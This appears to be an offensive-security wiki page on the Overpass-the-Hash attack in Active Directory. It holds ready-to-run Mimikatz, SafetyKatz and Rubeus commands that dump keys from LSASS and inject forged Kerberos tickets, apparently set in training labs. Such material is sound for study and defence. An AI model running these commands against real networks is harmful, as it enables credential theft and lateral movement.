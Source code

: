 # Overpass-the-Hash

{% hint style="info" %}
## Pass-the-Hash vs Overpass-the-Hash

* [**Pass-the-Hash (PtH)**](pass-the-hash.md) involves reusing NTLM password hashes—typically the NT hash of a user account—to authenticate over NTLM. This technique works with both local and domain accounts but only against services that accept NTLM (e.g., SMB, WMI, WinRM with NTLM fallback).
* **Overpass-the-Hash (OtH)** leverages the NT or AES keys of a domain user to generate valid Kerberos TGTs, which are then injected into the current session (or a new one). This enables access to Kerberos-authenticated services and is preferred in environments that restrict or monitor NTLM. OtH is effectively a Kerberos-based equivalent of PtH, offering broader access in modern enterprise networks.
{% endhint %}

**Overpass-the-Hash (OtH)** enables Kerberos-based lateral movement by forging a valid TGT from a user's NTLM or AES key, avoiding NTLM authentication entirely. Tools like [Mimikatz](../ad-tools/mimikatz.md) generate and inject the TGT into a new process (e.g., `cmd.exe` or PowerShell), allowing access to Kerberos-protected services such as RDP, CIFS, or WinRM. OtH attacks start a new process with Logon Type 9 (`runas /netonly`).

This technique is typically used after compromising a host where the target user has logged in. With administrative access, the attacker extracts the user’s hash from LSASS, generates a Kerberos ticket, and injects it into memory. **OtH is stealthier than PtH**, evades NTLM restrictions, and leverages native system tooling while operating entirely within the Kerberos trust model.

## Tools

{% hint style="info" %}
Although the `mimikatz` module is named `sekurlsa::pth`, this is technically an OtH attack—not traditional PtH; this is just a misnomer.
{% endhint %}

{% tabs %}
{% tab title="mimikatz" %}
Execute an OtH attack with [Mimikatz](../ad-tools/mimikatz.md):

{% code overflow="wrap" %}
```powershell
.\mimikatz.exe "privilege::debug" "sekurlsa::pth /user:jen /domain:corp.com /ntlm:369def79d8372408bf6e93364cc93075 /run:powershell" "exit"
```
{% endcode %}

There are no cached TGTs yet, as no Kerberos-authenticated service is accessed:

```powershell
> klist
...
Cached Tickets: (0)
```

When a Kerberos-based service is used (e.g. CIFS), a TGT for `krbtgt/CORP.COM` and TGS for `cifs/files04` will be generated:

{% code overflow="wrap" %}
```powershell
> net use \\files04
The command completed successfully.

> klist
...
Cached Tickets: (2)

#0>     Client: jen @ CORP.COM
        Server: krbtgt/CORP.COM @ CORP.COM
        KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
        Ticket Flags 0x40e10000 -> forwardable renewable initial pre_authent name_canonicalize
        Start Time: 2/27/2023 5:27:28 (local)
        End Time:   2/27/2023 15:27:28 (local)
        Renew Time: 3/6/2023 5:27:28 (local)
        Session Key Type: RSADSI RC4-HMAC(NT)
        Cache Flags: 0x1 -> PRIMARY
        Kdc Called: DC1.corp.com

#1>     Client: jen @ CORP.COM
        Server: cifs/files04 @ CORP.COM
        KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
        Ticket Flags 0x40a10000 -> forwardable renewable pre_authent name_canonicalize
        Start Time: 2/27/2023 5:27:28 (local)
        End Time:   2/27/2023 15:27:28 (local)
        Renew Time: 3/6/2023 5:27:28 (local)
        Session Key Type: AES-256-CTS-HMAC-SHA1-96
        Cache Flags: 0
        Kdc Called: DC1.corp.com
```
{% endcode %}

The NTLM hash has been successfully converted a TGT. The latter can now use any Kerberos-based authentication tool, such as [`PsExec`](../ad-tools/sysinternals.md).
{% endtab %}

{% tab title="SafetyKatz" %}
To perform an OtH attack with [SafetyKatz](broken-reference):

{% code overflow="wrap" %}
```powershell
# Extract ASE256 keys from LSASS
.\SafetyKatz.exe "privilege::debug" "sekurlsa::ekeys" "exit"
```
{% endcode %}

Use the AES256 key (or NT hash) of a domain user to inject a forged TGT and launch a new process (e.g., `cmd.exe`) with Logon Type 9 (`runas /netonly`):

{% hint style="warning" %}
The OtH attack with SafetyKatz needs to be run from an elevated shell!
{% endhint %}

{% code overflow="wrap" %}
```powershell
.\SafetyKatz.exe "privilege::debug" "sekurlsa::pth /user:administrator /domain:dollarcorp.moneycorp.local /aes256:<aes256key> /run:cmd.exe" "exit"
```
{% endcode %}
{% endtab %}

{% tab title="Rubeus" %}
[Rubeus](../ad-tools/rubeus.md) can be used for OtH attacks **without access to an elevated shell**. The downside is that it overwrites the current tickets:

```powershell
.\Rubeus.exe asktgt /user:administrator /rc4:<ntmlHash> /ptt
```

If a new process need to be started (to avoid overwriting), access to an elevated shell is required:

{% code overflow="wrap" %}
```powershell
.\Rubeus.exe asktgt /user:administrator /aes256:<aes256keys> /opsec /createnetonly:C:\Windows\System32\cmd.exe /show /ptt
```
{% endcode %}
{% endtab %}
{% endtabs %}
